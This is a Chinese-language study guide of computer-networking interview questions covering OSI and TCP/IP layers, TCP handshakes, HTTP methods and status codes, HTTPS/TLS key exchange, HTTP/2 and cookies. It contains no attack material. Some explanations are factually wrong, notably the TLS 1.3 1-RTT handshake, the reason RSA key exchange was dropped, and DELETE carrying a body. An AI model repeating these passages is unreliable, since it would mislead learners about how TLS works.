


# 计算机网络

::: details 目录

[[toc]]

:::

## 面试题 1：OSI 及 OSI 七层模型

作用：将世界范围内的计算机连接为网络的框架

### OSI 七层模型

1. 应用层
   - 直接为用户提供网络服务，如 HTTP、FTP、SMTP 等。
   - 是用户与网络之间的接口，提供各种高级服务。
2. 表示层
   - 负责数据格式转换、加密解密、压缩解压等。
   - 确保发送方和接收方能够理解彼此的数据格式。
3. 会话层
   - 负责建立、管理和终止应用程序之间的会话。
   - 协调通信控制，例如对话的发起和结束。
4. 传输层
   - 不同主机之间的通信，提供端到端的通信服务，确保数据完整无误地到达接收方（稳定性）。
   - 常见协议有 TCP（传输控制协议）和 UDP（用户数据报协议）。
5. 网络层（IP 层面）
   - 负责路由选择，即将数据包从源地址传输到目的地址。
   - 处理数据包的转发和路径选择。
6. 数据链路层
   - 提供节点到节点的数据传输，检测并可能纠正错误。
7. 物理层
   - 描述数据在物理设备上如何传输和编码。


## 面试题 2：TCP/IP

定义：TCP（传输层）/IP（网络层） 是一组协议，用于在不同网络中实现传输数据的规范。它由两个主要部分组成：TCP（传输控制协议）和 IP（因特网协议）。

### TCP/IP 模型

和 OSI 模型类似，TCP/IP 模型分为 `4层`。

1. 应用层：将 OSI 的应用层、表示层、会话层进行整合。
2. 传输层
3. 网络层
4. 网络接口层：对应 OSI 的物理层、数据链路层

## 面试题 3：TCP（传输控制协议） 和 UDP（用户数据报协议） 的区别

两种常用的传输层协议，用于在网络中传输数据。

1. 连接方式
   - TCP：面向连接的协议，在传输数据之前需要建立可靠的连接（三次握手），确保通信双方准备好。
   - UDP：无连接的协议，直接发送数据，不需建立连接。
2. 可靠性
   - TCP：传输数据时，会进行错误校验和重传机制，确保数据传输成功。
   - UDP：不可靠的传输，不保证数据一定能到达接收方，也不保证数据顺序。
3. 速度
   - TCP：由于有连接建立、确认和重传等过程，速度较慢。
   - UDP：没有这些额外的操作，速度快，适合对实时性要求较高的场景。

## 面试题 4：TCP 的三次握手和四次挥手

### 三次握手

三次握手用于**建立连接**，建立连接的过程发送了 3 次数据包，也称为“三次握手”。

1. SYN 包：客户端先发一次请求，询问服务器能否建立连接
2. SYN+ACK 包：服务器收到请求后，向客户端发送确认包
3. ACK 包：服务器收到客户端的 ACK 包，表示服务器已经收到请求，可以建立连接


### 为什么是三次而不是两次？

因为为了防止已失效的请求报文，突然又传到服务器引起错误。就是为了解决网络信道不可靠的问题。

比如：SYN1 包在传输过程中，因为网络问题没有到达服务器，客户端重新发送 SYN2 包，这时服务器接收到 SYN2 后，返回 SYN+ACK 包，与客户端建立连接，这时如果 SYN1 网络好了，到达了服务器，服务器会认为这个失效的 SYN1 包是客户端发起的第二次连接，又会返回一个 SYN+ACK 包，导致两次状态不一致。

### 四次挥手

四次挥手用于**断开连接**，断开连接的过程发送了 4 次数据包，也称为“四次挥手”。

1. FIN 包：客户端发一个 FIN 包，表示要断开连接，但连接还保持，客户端进入终止等待 1 状态
2. ACK 包：服务器收到 FIN 包，返回一个 ACK 包，表示自己已经收到 FIN 包，自己进入关闭等待状态，客户端进入终止等待 2 状态
3. FIN 包：服务器发一个 FIN 包，表示要断开连接，但连接还保持
4. ACK 包：客户端收到 FIN 包，返回一个 ACK 包，客户端进入超时等待状态，经过超时时间后关闭连接，而服务器收到最后一次 ACK 包后立刻关闭连接。


### 为什么四次挥手，最后客户端需要进入超时等待状态？

这是为了保证服务器能够正常收到最后一个 ACK 包，防止客户端提前关闭连接。

## 面试题 5：HTTP 请求方式

1. GET：用于获取资源，通过 URL 传递参数，请求的结果会被缓存，可以被书签保存，不适合传输敏感信息。
2. POST：用于提交数据，将数据放在请求体中发送给服务器，请求的结果不会被缓存。
3. PUT：用于更新资源，将数据放在请求体中发送给服务器，通常用于更新整个资源。
4. DELETE：用于删除资源，将数据放在请求体中发送给服务器，用于删除指定的资源。
5. PATCH：用于部分更新资源，将数据放在请求体中发送给服务器，通常用于更新资源的部分属性。

## 面试题 6：GET 和 POST 的区别

**区别：**

1. get 幂等，post 不是。（多次访问效果一样为幂等）
2. get 能触发浏览器缓存，post 没有。
3. get 能由浏览器自动发起（如 img - src，资源加载），post 不行。
4. post 相对安全，一定程度上规避 CSRF 风险。

**相同：**

1. 都不安全，都是基于 http，明文传输（要做到安全，需要做加密，例如：https）。
2. 参数并没有大小限制，是 URL 大小有限制，因为要保护服务器。

> 因为 GET 请求的参数是在 URL 中的，而 URL 有大小的限制

## 面试题 7：RESTful 规范

**使用语义化的 URL 来表示资源的层级关系和操作**，如/users 表示用户资源，/users/{id}表示具体的用户。

1. 资源：将系统中的实体抽象为资源，每个资源都有一个唯一的标识符（URI）。
2. HTTP 方法：使用 HTTP 请求方式来操作资源，如 GET、POST、PUT、DELETE 等。
3. 状态码：使用 HTTP 状态码来表示请求的结果，如 200 表示成功，404 表示资源不存在等。
4. 无状态：每个请求都是独立的，服务器不保存客户端的状态信息，客户端需要在请求中携带所有必要的信息。

## 面试题 8：常见的 HTTP 状态码以及代表的意义

- 1xx：属于信息性状态码，表示服务器已收到客户端的请求，正在处理中，需要客户端继续操作或者等待处理结果。常见的 1xx 状态码如下：
  - 100 Continue（继续）：先发送请求头，询问服务器是否愿意接收主体，服务器返回此状态码，表示服务器已经接受请求，需要客户端继续发送请求体。用于减少不必要的数据传输，提高性能。
  - 101 Switching Protocols（切换协议）：此状态码表示服务器根据客户端的请求，准备切换协议。最常见的应用场景是 WebSocket 协议的握手阶段
- 200 OK：请求成功，服务器成功处理了请求。
- 201 Created：请求已成功，并在服务器上创建了新的资源。
- 204 No Content：服务器成功处理了请求，但没有返回任何内容。
- 301 Moved Permanently：**永久重定向**，请求的资源已永久移动到新位置，客户端需要更新其请求地址。
- 302 Found：**临时重定向**，请求的资源已临时移动到新位置，但未来请求仍使用原始 URl。
- 303 See Other：请求的资源已临时移动到新位置，类似于 302，但明确要求客户端使用 GET 方法访问新的 URL。
- 304 Not Modified：请求的资源未修改，服务器返回此状态码，客户端可以使用缓存的资源。
- 400 Bad Request：服务器无法理解请求的语法，请求有语法错误。
- 401 Unauthorized：请求需要用户身份验证。
- 403 Forbidden：服务器拒绝请求，没有权限访问。
- 404 Not Found：请求的资源不存在。
- 405 Method Not Allowed：请求方法不被允许。
- 500 Internal Server Error：服务器内部错误，无法完成请求。
- 501 Not Implemented：服务器不支持实现请求所需要的功能。例如，客户端发送了一个服务器不支持的 HTTP 方法请求，服务器就会返回此状态码。
- 502 Bad Gateway：服务器作为网关或代理，从上游服务器收到无效响应。
  > 502 错误可能是网关错误，也有可能是**服务器问题**：
  >
  > **服务器应用程序错误**：服务器上运行的应用程序出现漏洞、错误或崩溃，可能导致其无法正确处理请求并返回正常响应。例如，应用程序中的代码逻辑错误、数据库连接问题等，都可能引发服务器内部错误，使得网关收到异常的响应，从而返回 502 错误。
- 503 Service Unavailable：服务器当前无法处理请求，通常由于过载或维护。
- 504 Gateway Time-out：网关超时，网关在等待上游服务器响应时超时。通常是由于服务器处理请求时间过长或网络延迟过高，导致网关没有在规定时间内收到服务器的响应。
- 505 HTTP Version Not Supported：服务器不支持客户端请求中使用的 HTTP 协议版本。例如，客户端使用了一个较新的、服务器不支持的 HTTP 版本发送请求，服务器就会返回此状态码。

## 面试题 9：什么是 HTTPS 协议？以及如何加密的？HTTPS 加密过程是什么？

### 什么是？

超文本传输安全协议 HTTPS 在 HTTP 层和 tcp 层中间加了一个 SSL/TLS 安全层，进行加密，避免了 HTTP 协议存在的信息窃听，信息劫持等风险。

HTTPS 增加的 <u style="background: pink;">TLS/SSL 层可以**对身份进行验证、信息加密解密**功能</u>，避免这种问题发生。安全层的主要职责就是对发起的 HTTP 的数据进行加密解密操作。


### 如何加密？

- **非对称加密**：通过公钥和私钥，利用公钥加密，和私钥解密（安全性高，但是性能差）
- **对称机密**：只有一把密钥，它可以加密和解密（安全性低，性能好）

### HTTPS 加密过程？

首先会在 TCP 的基础上进行三次握手，然后在 SSL/TLS 层进行加密，TLS 会进行四次握手，在此基础上进行会话的对称加密通信。

🚀 一、HTTPS 的核心加密过程依赖于**TLS 握手**，TLS 1.2 握手过程：

1. **客户端发起连接（Client Hello）**：客户端（如浏览器）向服务器发起 HTTPS 连接请求，发送：

   - 支持的 TLS 版本（如 TLS 1.2、1.3）
   - 支持的加密套件：包含多种算法和相关参数，以保障 HTTPS 通信的安全性和可靠性。
   - 一个随机数（Client Random）

   ::: details 这个随机数的作用是什么，在后续的哪个步骤起作用？

   **作用：**

   - **增加密钥的随机性**：Client Random 是**生成最终会话密钥的重要组成部分**。在 HTTPS 通信中，为了保证通信安全，会话密钥需要具备高度的随机性，以防止被攻击者猜测或破解。Client Random 与服务器端生成的随机数（Server Random）以及其他相关信息结合，通过特定的算法生成最终的会话密钥，从而增加了密钥的随机性和不可预测性。
   - **防止重放攻击**：<u>重放攻击是指攻击者截获并重新发送以前的通信数据，以达到欺骗系统的目的</u>。由于每次通信时客户端生成的 Client Random 都是不同的，服务器可以通过检查这个随机数来判断收到的消息是否是重复的旧消息。如果收到的消息中包含的随机数与之前记录的相同通信过程中的随机数不一致，服务器就可以识别出这可能是重放攻击，从而拒绝该消息。

   **在后续步骤中起作用的阶段：**

   - **会话密钥生成阶段**：在客户端和服务器完成加密套件协商后，会进行密钥交换操作。Client Random 和 Server Random 会作为输入参数，与密钥交换过程中生成的共享秘密值（共享密钥值是在验证数字证书那步，生成的一个随机字符串 pre-master secret）一起，通过伪随机函数（PRF）生成最终的会话密钥。

   :::

2. **服务器响应（Server Hello）**：**服务器选择 TLS 版本、加密算法**，并返回：

   - 一个随机数（Server Random）
   - 服务器的数字证书（包含公钥、CA 签名、域名等信息）

3. **客户端验证证书**：客户端检查证书是否有效：

   - 是否由受信任的 证书颁发机构（CA） 签发
   - 域名是否匹配，是否在有效期内
   - 通过 CA 的公钥验证数字签名，确保未被篡改

   ::: details 如何验证证书有效？

   1. **证书颁发机构（CA）**：检查证书是否由受信任的 CA 颁发。操作系统和浏览器内置了受信任 CA 列表，若不在列表内，证书可能不被认可。比如全球知名的 DigiCert、Symantec 等 CA 所颁发的证书，通常更值得信赖。（用户可以根据自己的需求和判断，手动将某些 CA 证书添加到操作系统或浏览器的信任列表中。）
   2. **证书有效期**：查看证书的起止日期，当前日期需在有效期内。若已过期或还未生效，浏览器会提示证书有问题。
   3. **域名匹配**：确保证书所绑定的域名与访问的网站域名一致。不一致时，可能是中间人攻击或配置错误，浏览器也会提示风险。
   4. **证书链验证**：验证证书的整个信任链，从服务器证书到根证书，每一级证书都要验证。根证书需是操作系统或浏览器信任的，否则证书链不完整，被视为不合法。
   5. **吊销状态检查**：通过证书吊销列表（CRL）或在线证书状态协议（OCSP）检查证书是否已被吊销。若已吊销，即便在有效期内，也不能认为是合法的。

   :::

   ::: details 什么是证书链？以及如何验证？

   **证书链的构成**：

   - 服务器证书：也称为终端实体证书，是颁发给服务器的数字证书，包含服务器的公钥以及服务器的相关标识信息，如域名等。
   - 中间证书：由于根证书通常不会直接颁发服务器证书，而是通过中间证书来颁发，所以中间证书起到了连接根证书和服务器证书的桥梁作用。一个证书链中可能有多个中间证书，形成多层级的信任关系。
   - 根证书：处于证书链的最顶端，是信任的起点。根证书由被广泛信任的证书颁发机构（CA）自身持有，**其公钥被内置在操作系统或浏览器的受信任列表中**。

   **验证过程**：

   1. **获取证书链**：当客户端与服务器建立安全连接时，服务器会将其证书（服务器证书）以及相关的中间证书发送给客户端。**客户端需要从服务器证书开始，逐步向上构建证书链，直到找到根证书**。
   2. **验证服务器证书**：客户端首先验证服务器证书的合法性，包括检查证书是否在有效期内、证书中的域名是否与访问的域名一致、证书是否被吊销等。同时，使用证书中携带的 CA 签名公钥来验证服务器证书上的签名，确保证书是由合法的 CA 颁发的。
   3. **验证中间证书**：对于证书链中的每一个中间证书，客户端都要重复类似的验证过程，检查其有效期、签名等。通过验证中间证书，可以确认服务器证书与根证书之间的信任路径是可靠的。
   4. **验证根证书**：最后，客户端要验证根证书是否是操作系统或浏览器信任的。由于根证书的公钥已被内置在信任列表中，客户端可以直接使用该公钥来验证根证书的签名是否有效。如果根证书在信任列表中且签名验证通过，那么整个证书链被认为是完整且合法的，客户端可以信任服务器证书，从而建立安全的连接。

   🚀**总结**：通过**证书链**的方式找到该服务器证书的根证书是否是系统或者浏览器预先安装的根证书，如果是，那就是安全的 HTTPS 请求。

   :::

4. **密钥交换**：客户端生成 **Pre-Master Secret**（客户端又生成的一个随机数，这个随机数的生成与 Client-Random 无关），并用服务器的公钥加密后发送

5. **生成会话密钥（Session Key）**：在上一步，生成**Pre-Master Secret**，用服务器公钥加密后发送。然后服务器用私钥解密，得到 Pre-Master Key，结合 Client Random 和 Server Random 生成**会话密钥（Session Key）**

> Client Random + Server Random + Pre-Master Secret

6. **加密通信**：后续所有数据使用对称加密（如 AES）传输，提高效率。

> 对称加密特点：
>
> - **加密和解密速度快**：对称加密算法使用相同的密钥进行加密和解密操作，其计算过程相对简单，执行效率高。
> - **效率优势明显**：一旦通信双方通过密钥交换机制（如 ECDHE）获得了共享的对称密钥，就可以使用该密钥对后续的通信数据进行快速加密和解密。



🚀 二、最新版本的 Chrome（如基于 TLS 1.3）优化了握手速度与安全性：

TLS 1.3 减少了握手步骤（如移除 RSA 密钥交换，除非兼容旧系统），也就是在 TLS1.3 使用的是 ECDHE 共享密钥方式，上面的 https 加密过程：「4.**密钥交换**」分为 ECDHE 和 RSA 两种（上面 4 的密钥交换就是 RSA）

ECDHE 密钥交换：双方直接通过 ECDHE 计算共享密钥，无需传输 Pre-Master Secret

**ECDHE 密钥交换方式**：由于每次通信使用的是临时生成的密钥对，即使攻击者在某次通信中窃取了共享密钥，也无法解密其他通信会话的数据。因为每个会话的密钥都是独立生成的，与其他会话的密钥没有关联。而且，即使服务器的长期私钥被泄露，攻击者也无法利用该私钥来解密之前使用 ECDHE 进行密钥交换的通信记录，因为 ECDHE 使用的临时密钥与长期私钥是相互独立的，从而实现了前向安全。

> 前向安全是指即使攻击者获取了长期密钥（如服务器的私钥），也无法解密过去已经完成的通信记录。这是通过在每次通信时使用临时生成的密钥对来实现的，这些临时密钥与长期密钥相互独立，从而保证了过去的通信内容不会因为长期密钥的泄露而受到威胁。

**ECDHE 交换 双方是如何知道这个共享密钥的？**

1. **各自生成密钥对**：**客户端和服务器各自随机生成一个临时**的椭圆曲线**密钥对**，包括一个私钥和一个对应的公钥。
2. **交换公钥**：客户端将自己的公钥发送给服务器，服务器也将自己的公钥发送给客户端。这个公钥交换过程是在网络中明文传输的，但由于椭圆曲线密码体制的特性，仅通过公钥很难推导出私钥。
3. **计算共享密钥（通过自己的私钥+对方公钥计算一个共享密钥）**：客户端使用自己的私钥和服务器发送过来的公钥，通过椭圆曲线 Diffie-Hellman 算法计算出一个共享密钥。同样地，服务器使用自己的私钥和客户端发送过来的公钥，也计算出相同的共享密钥。

**TLS 1.3 的优化**：

1. **1-RTT 握手**：相比 TLS 1.2 的 2-RTT，TLS 1.3 减少了握手时间。

::: details RTT

在 TLS 协议中，RTT（Round - Trip Time）指的是从客户端发送请求到收到服务器响应所经历的时间，即往返时间。

- **TLS 1.2 的 2-RTT 握手过程**：在 TLS 1.2 中，客户端首先向服务器发送 ClientHello 消息，服务器以 ServerHello 消息及相关证书等进行响应，这是第一个 RTT。接着，客户端发送包含密钥交换信息的 ClientKeyExchange 消息以及 ChangeCipherSpec 和 Finished 消息，服务器用 ChangeCipherSpec 和 Finished 消息响应，完成握手，这是第二个 RTT。所以 TLS 1.2 完成握手需要两个 RTT，意味着在数据传输前会有较长的延迟。

  **2-RTT 总结：上面内容比较绕，总体来说：第一个 RTT 是在服务器发送 clinetHello 消息，服务器响应 ServerHello 后返回证书和公钥；第二个 RTT 是在后续密钥加密和解密过程，确保会话安全建立的过程。**

- **TLS 1.3 的 1-RTT 握手过程**：TLS 1.3 通过优化，将一些操作提前（例如 tls1.2 过程中随机数生成是在证书验证后，可以提前到 cline hello 这个一步），使得握手过程可以在一个 RTT 内完成。

  - 客户端在发送 ClientHello 消息时，同时带上支持的密钥交换算法、加密套件等信息，以及一个预主密钥（Pre-Master Secret，也就是随机数）。服务器收到 ClientHello 后，选择合适的加密套件和密钥交换算法，并使用客户端的公钥加密预主密钥（客户端给服务器公钥，与 1.2 的操作反过来了），然后将 ServerHello 消息、加密后的预主密钥等发送给客户端。客户端和服务器在一个 RTT 内就可以完成密钥交换，计算出会话密钥，进而开始加密数据传输。

:::

2. **移除不安全算法**：**不再支持 RSA 密钥交换**、SHA-1、RC4 等弱加密方式

::: details 为什么 RSA 密钥交换不安全？

因为**易受中间人攻击**：RSA 密钥交换在某些情况下容易受到中间人攻击。在传统的 RSA 密钥交换过程中，服务器用自己的私钥对证书和其他相关信息进行签名，客户端通过验证服务器的公钥来确认服务器的身份。然而，**攻击者可以拦截客户端与服务器之间的通信**，然后**用自己的密钥对伪造的服务器证书和信息进行签名**，并将其发送给客户端。由于**客户端无法直接验证服务器的真实公钥**，可能会误将攻击者的公钥当作服务器的公钥，从而与攻击者建立起加密连接，导致通信内容被攻击者窃取或篡改。

:::

### 为什么非对称加密在 HTTPS 特定的环节中这么设计？设计思路是什么？

HTTPS 中采用非对称加密的设计，核心是为了解决**对称加密在密钥传输环节的安全隐患**

- 对称加密的局限性：
  - 加密效率高但密钥传输不安全：对称加密（如 AES）加密和解密使用同一密钥，计算速度快，适合大量数据传输。但 密钥需提前共享，若通过明文传输密钥（如 HTTP），易被中间人窃取，导致后续通信完全暴露。
  - 密钥管理复杂：通信双方需维护独立密钥，若用户量庞大（如网站与千万用户通信），密钥管理成本极高。
- 非对称加密的特性：
  - 公私钥配对机制：非对称加密（如 RSA、ECC）使用 公钥加密、私钥解密（或反向），公钥可公开传播，私钥由持有者秘密保存。
  - 单向安全性：仅知道公钥无法推导出私钥，确保密钥传输的安全性。

🚀 **设计思路**：非对称加密与对称加密的互补

HTTPS 通过 混合加密机制（非对称加密 + 对称加密）解决安全与效率的矛盾

1. 非对称加密用于「**安全交换对称密钥**」
   - 目标：在不安全的网络环境中，让通信双方安全地协商出一个临时对称密钥（称为 会话密钥）。
2. 对称加密用于「**数据传输**」
   - 目标：使用协商好的会话密钥对实际传输的数据（如网页内容、用户请求）进行加密，提升通信效率。
3. 数字证书解决「**公钥合法性**」问题
   - 中间人攻击风险：若黑客伪造服务器公钥，客户端无法识别，会导致会话密钥被黑客窃取（即「伪装公钥攻击」）。
   - 解决方案：服务器的公钥需由 可信证书颁发机构（CA） 签名生成数字证书。客户端通过验证证书的签名（使用 CA 的根公钥），确保公钥属于真实的服务器，防止中间人伪造公钥。

## 面试题 10：Http 和 Https 的区别？

主要的区别在于**安全性和数据传输方式**上，HTTPS 比 HTTP 更加安全，适合用于保护网站用户的隐私和安全，如银行网站、电子商务网站等。

- **安全性**：HTTP 协议传输的数据都是未加密的，也就是明文的，因此使用 HTTP 协议传输的数据可以被任何抓包工具截取并查看。而 HTTPS 协议是由 SSL+HTTP 协议构建的可进行加密传输、身份认证的网络协议，更为安全。
- **端口号**：HTTP 协议的端口号是 80，HTTPS 协议的端口号是 443。
- **网址导航栏显示**：使用 HTTP 协议的网站导航栏显示的是"http://"，而使用 HTTPS 协议的网站导航栏显示的是"https://"。
- **网络速度**：HTTP 协议比 HTTPS 协议快，因为 HTTPS 协议需要进行加密和解密的过程。
- **SEO 优化**：搜索引擎更倾向于把 HTTPS 网站排在更前面的位置，因为 HTTPS 更安全。

## 面试题 11：Http1 和 Http2 的区别？

- **二进制协议**：HTTP1.1 的解析是基于文本，而 HTTP2 使用二进制，将请求和响应分割为更小的帧，从而实现多路复用。
- **多路复用**：浏览器有个请求最大并发数，谷歌是 6 个，HTTP 1.1 中如果超过了这个数量，后序的请求需要进行排队，而 HTTP2 在一个 TCP 连接上可以同时并行发送多个请求和响应，这样避免了 HTTP 队头阻塞，但是 TCP 的队头阻塞依旧存在。

  - HTTP 队头阻塞

  ::: details 什么是 HTTP 队头阻塞

  ### HTTP 队头堵塞

  在 HTTP/1.1 中，默认情况下，浏览器对同一域名下的并发连接数有限制（通常为 6-8 个），这意味着浏览器同一时间最多只能与服务器建立 6-8 个连接。同时，在同一连接中，请求和响应是按照顺序处理的，也就是说，一个请求需要等待前面的请求响应完成后才能开始处理。如果前面的请求处理时间较长，后续请求就必须等待，从而导致队头阻塞。

  总结：HTTP 队头堵塞是指在同一域名下浏览器的连接数有限制，并且请求要在连接内按顺序处理，这样就**会导致某个请求的延迟或阻塞会影响后续请求的处理**。

  :::

  - TCP 队头阻塞

  ::: details 什么是 TCP 队头堵塞

  ### TCP 队头阻塞

  在一个 TCP 连接中，如果某个数据包在传输过程中失误或者丢失，那么在这个数据包后发送的所有数据都需要等待，直到该数据被重新传输。这种情况会导致接收方在 TCP 缓冲区中，后续的数据包被阻塞在错误数据包之后，无法继续处理，即被堵塞在队头

  总结：TCP 协议为了保证数据包的有序传输，如果一个数据包在丢失损坏后，TCP 接受端会要求重新发送该数据包，直到被正确接收为止。

  :::

- **头部信息压缩**：由于 HTTP1.1 每次请求都会带上所有信息，比如 Cookie，这样会很浪费性能，HTTP2 引入头部压缩，一方面将头部信息使用 gzip 压缩后再发送，另一方面客户端和服务器同时维护一张头部信息表，所有字段都会存入这张表，生成索引，只发送索引就可以。
- **服务器推送**：HTTP2 允许服务器向客户端主动发送资源，只限于静态资源如 css，img 等

## 面试题 12：Cookie 为了解决什么问题？

Cookie 诞生的主要目的是<u>为了解决 HTTP 协议的无状态性问题</u>。HTTP 协议是一种无状态的协议，即服务器无法识别不同的用户或跟踪用户的状态。这导致了一些问题，比如无法保持用户的登录状态、无法跟踪用户的购物车内容等。

### Cookie 常用字段

- **Name**（名称）：Cookie 的名称，用于标识特定的 Cookie。每个 Cookie 都有一个唯一的名称，例如`username`、`session_id`等。通过名称，服务器和浏览器可以识别和操作特定的 Cookie。
- **Value**（值）：Cookie 的值，是与名称相关联的数据。例如，`username` Cookie 的值可能是用户的登录名，`session_id` Cookie 的值可能是一个唯一的会话标识符。
- **Domain**（域）：指定 Cookie 所属的域名。Cookie 只能被发送到与该域名匹配的服务器上。例如，如果`Domain`设置为`example.com`，那么只有在访问`example.com`及其子域名（如`www.example.com`）时，浏览器才会发送该 Cookie。
- **Path**（路径）：指定 Cookie 适用的路径。只有当请求的 URL 路径与该路径匹配时，浏览器才会发送 Cookie。例如，`Path`设置为`/admin`，那么只有在访问`example.com/admin`及其子路径下的页面时，才会发送该 Cookie。
- **Expires** / **Max-Age**：用于设置 Cookie 的过期时间。
  - **Expires**：指定一个具体的日期和时间，当到达该时间后，Cookie 将被删除。例如，`Expires=Wed, 31 Dec 2025 23:59:59 GMT`。
  - **Max-Age**：指定从当前时间开始，Cookie 有效的秒数。例如，`Max-Age=3600`表示 Cookie 将在 1 小时后过期。如果不设置这两个字段，Cookie 通常在浏览器关闭时就会被删除。
- **Secure**：该字段是一个布尔值，表示 Cookie 是否只能通过安全的 HTTPS 连接发送。如果设置了`Secure`，那么在 HTTP 连接下，浏览器不会发送该 Cookie，以确保数据传输的安全性。
- **HttpOnly**：也是一个布尔值，设置为`true`时，Cookie 只能通过 HTTP 协议访问，无法通过客户端脚本（如 JavaScript）访问。这有助于防止跨站点脚本攻击（XSS）窃取 Cookie 信息。
- **SameSite**：用于控制浏览器在跨站请求时是否携带该 Cookie。它的主要作用是防止跨站请求伪造（CSRF）攻击，增强 Cookie 的安全性。
  - `Strict`：完全禁止跨站携带 Cookie。只有当请求来源与目标网站完全同源（域名、协议、端口一致）时才发送 Cookie。最安全，但用户体验较差。
  - `Lax`：允许部分跨站请求携带 Cookie。允许 GET 类型的顶级导航请求携带 Cookie（例如点击链接跳转），但禁止 POST 请求、iframe 等携带 Cookie。兼顾安全和体验。
  - `None`：允许所有跨站请求携带 Cookie。所有跨站请求都会携带 Cookie，必须配合 `Secure` 属性使用（即只能通过 HTTPS 发送）。适用于嵌入第三方内容的场景，如广告、统计脚本等。

有关安全性属性：Domain、Secure、HttpOnly、SameSite

### 如果希望一份 cookie 在二级域名互通，应该如何处理？

要在多个二级域名之间共享 Cookie，需要正确设置 Cookie 的 `domain` 属性。这样可以让浏览器在不同子域名下共享同一个 Cookie。

```http
<!-- . 它表示匹配所有子域名 -->
Set-Cookie: token=abc123; domain=.example.com; path=/; Secure; HttpOnly
```

下面的的子域名都能访问：

- `www.example.com`
- `login.example.com`
- `api.example.com`

## 面试题 13：Cookie 和 Session 的区别？

`Cookie` 和 `Session` 都是用于在 web 应用中维护状态和用户身份的两种不同机制：

### Cookie

当后端通过 `Set-Cookie 响应头`返回 Cookie 时，浏览器会`自动`将其保存到本地。

- **自动保存**：浏览器接收到包含 Set-Cookie 响应头的 HTTP 响应后，会根据 Cookie 的属性（如域名、路径、有效期等）自动将 Cookie 保存在本地。
- **发送 Cookie**：之后，当浏览器向同一域名下的服务器发起请求时，会自动在请求头中添加 Cookie 字段，将对应的 Cookie 发送给服务器。

> ⚠️ 注意：浏览器对 Cookie 的处理遵循同源策略，即只有在请求的域名、协议和端口与设置 Cookie 时一致的情况下，浏览器才会自动携带 Cookie。

**缺点：**

1. 安全风险：可以被修改
2. 存储大小限制：浏览器对 Cookie 的存储大小有限制，通常为 4KB。
3. 可用限制：用户可能会禁用 Cookie

### Session

- **流程：**

  1. **创建会话**：当用户首次访问服务器时，服务器会为该用户创建一个唯一的会话标识符（Session ID），并将其存储在服务器端的内存或数据库中。
  2. **传递会话标识符**：服务器通过 `Set-Cookie 响应头`将 Session ID 发送到客户端浏览器。浏览器会自动保存这个 Session ID 并在后续请求中通过 Cookie 自动发送给服务器。
  3. **维护会话状态**：服务器根据接收到的 Session ID 查找对应的会话数据，从而维持用户的会话状态。

- **优点：**

  1. **安全性更高**：因为会话数据存储在服务器端，不会暴露给客户端，减少了被篡改的风险。
